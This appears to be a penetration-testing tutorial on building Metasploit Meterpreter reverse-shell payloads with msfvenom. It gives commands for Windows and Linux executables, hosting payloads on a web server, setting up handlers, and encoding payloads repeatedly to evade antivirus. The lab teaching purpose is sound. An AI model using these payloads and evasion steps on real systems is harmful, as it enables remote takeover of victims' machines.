 # Payloads

## Generating Payloads with Msfvenom

### Client-Side Attacks

- **Definition**: A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system, which then connects back to the attacker when executed.
- **Techniques**: These attacks typically utilize social engineering techniques to generate malicious documents or portable executables (PEs).
- **Vulnerability**: Client-side attacks exploit human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.
- **Antivirus Considerations**: Since this attack vector involves the transfer and storage of a malicious payload on the client’s system (disk), attackers need to be mindful of AV detection.

### Msfvenom

- **What is Msfvenom?**: Msfvenom is a command-line utility used to generate and encode Metasploit Framework (MSF) payloads for various operating systems and web servers.
- **Origin**: Msfvenom combines the functionalities of two tools: `msfpayload` and `msfencode`.
- **Purpose**: We can use Msfvenom to generate a malicious Meterpreter payload that can be transferred to a target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

### Demo: Generating Payloads with Msfvenom

1. **List available payloads:**

    ```bash
    msfvenom --list payloads
    ```

2. **Types of Payloads:**
   - **Staged Payload**: Delivered in two parts: an initial loader that connects back to the attacker and downloads the main payload, allowing for smaller payloads and flexibility.
   - **Non-staged Payload**: Delivers the entire payload at once, making it simpler and faster but potentially larger in size.

#### Generating Windows Payloads

- **Generate x86 Payload:**

    ```bash
    msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=[port] -f exe > /home/kali/Desktop/Windows_Payloads/payloadx86.exe
    ```

    Check if the payload was generated successfully:

    ```bash
    cd Desktop/Windows_Payloads/
    ls
    ```

- **Generate x64 Payload:**

    ```bash
    msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=[port] -f exe > /home/kali/Desktop/Windows_Payloads/payloadx64.exe
    ```

    Verify:

    ```bash
    cd Desktop/Windows_Payloads/
    ls
    ```

- **Set up a Handler:**
    - A handler is needed to listen for and manage incoming connections from the payload on the target machine, enabling control over the compromised system:

    ```bash
    use exploit/multi/handler
    ```

- **List available output formats:**

    ```bash
    msfvenom -list formats
    ```

    - **Framework Executable Formats**: aspx, dll, elf, exe, jar, etc.
    - **Framework Transform Formats**: Allows us to output the payloads into a Python, Ruby file, etc.

#### Generating Linux Payloads

- **Navigate to the directory for Linux payloads:**

    ```bash
    cd ..
    ls
    ```

    The payloads will be stored in `/home/kali/Desktop/`.

- **Generate Payload:**

    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=[port] -f elf > /Desktop/Linux_Payloads/payloadx86
    ```

    Navigate to the target directory and make the payload executable:

    ```bash
    cd Linux_Payloads/
    chmod +x payloadx86
    ./payloadx86
    ```

### Transfer Windows Payload onto Target System

- **Navigate to the Windows payloads directory:**

    ```bash
    cd Windows_Payloads/
    ```

- **Set up a simple web server to host the payload files:**

    ```bash
    sudo python -m SimpleHTTPServer 80
    ```

- **Open a new tab and launch msfconsole:**

    ```bash
    msfconsole
    ```

    - **Set up and run the handler:**

        ```bash
        use multi/handler
        set payload windows/meterpreter/reverse_tcp
        set lhost [yourIP]
        set lport [port]
        run
        ```

    - **Result**: We obtained a Meterpreter session.
 
## Encoding Payloads with Msfvenom

- **AV Detection**: Since this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be aware of antivirus (AV) detection.
- **Signature-Based Detection**: Most end-user AV solutions utilize signature-based detection to identify malicious files or executables.
- **Evading AV Solutions**: We can evade older signature-based AV solutions by encoding our payloads.
- **Encoding**: Encoding is the process of modifying the payload shellcode with the objective of altering the payload's signature to evade detection.

## Shellcode

- **Definition**: Shellcode is a piece of code typically used as a payload for exploitation.
- **Origin of the Term**: It derives its name from "command shell," where shellcode is a piece of code that provides an attacker with a remote command shell on the target system.

## Demo: Encoding Payloads with Msfvenom

### Encoding Windows Payload

1. **List available encoders:**

    ```bash
    msfvenom --list encoders
    ```

2. **Generate and encode a Windows x86 payload with Shikata:**

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=1234 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
    ```

    Navigate to the directory:

    ```bash
    cd Windows_Payloads/
    ```

3. **Increase iterations to improve AV evasion:**

    ```bash
    rm encodedx86.exe
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
    ```

    Verify the generated file:

    ```bash
    ls
    ```

### Encoding Linux Payload

1. **Generate and encode a Linux x86 payload:**

    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/Linux_Payloads/encodedx86
    ```

    Navigate to the root directory and list files:

    ```bash
    cd
    ls
    cd Linux_Payloads/
    ```

### Testing Out the Exploits

1. **Navigate to the Windows payloads directory:**

    ```bash
    cd Windows_Payloads/
    ```

2. **Host a simple web server to upload the exploit files:**

    ```bash
    sudo python -m SimpleHTTPServer 80
    ```

3. **Set up the Listener in a new tab:**

    ```bash
    msfconsole
    ```

    Configure the handler:

    ```bash
    use multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST=[yourIP]
    set LPORT=1234
    show options
    run
    ```

4. **Execute the payload on the target system**:
   - On the Windows system, after uploading the payload, executing it on the target will allow us to obtain a Meterpreter session on our Kali system.

